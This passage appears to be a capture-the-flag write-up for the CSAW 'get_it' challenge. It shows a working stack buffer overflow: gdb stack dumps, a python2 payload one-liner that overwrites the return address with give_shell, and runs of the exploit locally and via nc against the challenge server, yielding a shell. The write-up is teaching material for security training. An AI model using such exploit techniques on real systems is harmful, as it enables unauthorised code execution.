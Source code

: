 Breakpoint 1, 0x00000000004005f6 in main ()
(gdb) x/6xg $rbp - 0x20
0x7fffffffe130: 0x4141414141414141      0x4141414141414141
0x7fffffffe140: 0x4141414141414141      0x4141414141414141
0x7fffffffe150: 0x4242424242424242      0x4343434343434343
```

Our return address is now full of `C`s! All that is left is replacing the `C`s with the address of give_shell.

Exiting gdb now, we can use python to convert the hex address to something that the program will parse as an address.
```python
$ python2
>>> import struct
>>> struct.pack('<Q', 0x4005b6)
'\xb6\x05@\x00\x00\x00\x00\x00'
```
Generating the payload and saving it to a file is now a one line command:
```
python2 -c "print 'A' * 32 + 'B'*8 + '\xb6\x05@\x00\x00\x00\x00\x00'" > payload
```

You can test this payload in gdb like so:
```
(gdb) break * main+47
Breakpoint 1 at 0x4005f6
(gdb) run < payload
Starting program: /home/cygnus/get_it < payload
Do you gets it??

Breakpoint 1, 0x00000000004005f6 in main ()
(gdb) x/6xg $rbp - 0x20
0x7ffffffee020: 0x4141414141414141      0x4141414141414141
0x7ffffffee030: 0x4141414141414141      0x4141414141414141
0x7ffffffee040: 0x4242424242424242      0x00000000004005b6
(gdb) nexti
0x00000000004005f7 in main ()
(gdb) nexti
0x00000000004005b6 in give_shell ()
```
As you can see, we have now entered the `give_shell()` function.

Now to actually run the exploit.
```
$ (cat payload; cat) | ./get_it
Do you gets it??
whoami
root
```
What `(cat payload; cat)` does is simpily send your payload and the input that you type to get_it. Now you have a shell and can execute shell commands!

## Acquiring the flag
To get the flag, you just need to run the exploit against the remote server like so:
```
$ (cat payload; cat) | nc pwn.chal.csaw.io 9001
            _     _ _  ___ ___ ___
  __ _  ___| |_  (_) ||__ \__ \__ \
 / _` |/ _ \ __| | | __|/ / / / / /
| (_| |  __/ |_  | | |_|_| |_| |_|
 \__, |\___|\__| |_|\__(_) (_) (_)
 |___/
Do you gets it??
ls
art.txt  flag.txt  get_it  run.sh
```